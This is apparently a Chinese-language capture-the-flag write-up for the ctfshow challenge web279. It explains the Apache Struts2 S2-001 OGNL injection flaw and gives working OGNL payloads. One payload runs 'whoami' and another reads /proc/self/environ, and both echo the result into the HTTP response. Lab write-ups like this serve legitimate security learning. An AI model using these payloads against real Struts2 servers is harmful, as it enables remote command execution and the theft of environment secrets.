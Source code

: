 ## 写在前面

开始学习java

——KonDream 2022年2月9日20:17:19

## web279(S2-001 RCE)

>该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行
>
>- `%`的用途是在标志的属性为字符串类型时，计算OGNL表达式%{}中的值
来到登录页面，进行测试

![image-20220209202027317](image/ctfshow-java(279-300)/image-20220209202027317.png)

提交后回显

![image-20220209202050184](image/ctfshow-java(279-300)/image-20220209202050184.png)

证明漏洞存在

POC：

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```

![image-20220209202405576](image/ctfshow-java(279-300)/image-20220209202405576.png)

最终payload:

```java
%{
#a=(new+java.lang.ProcessBuilder(new+java.lang.String[]{"cat","/proc/self/environ"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new+java.io.InputStreamReader(#b),
#d=new+java.io.BufferedReader(#c),
#e=new+char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new+java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```
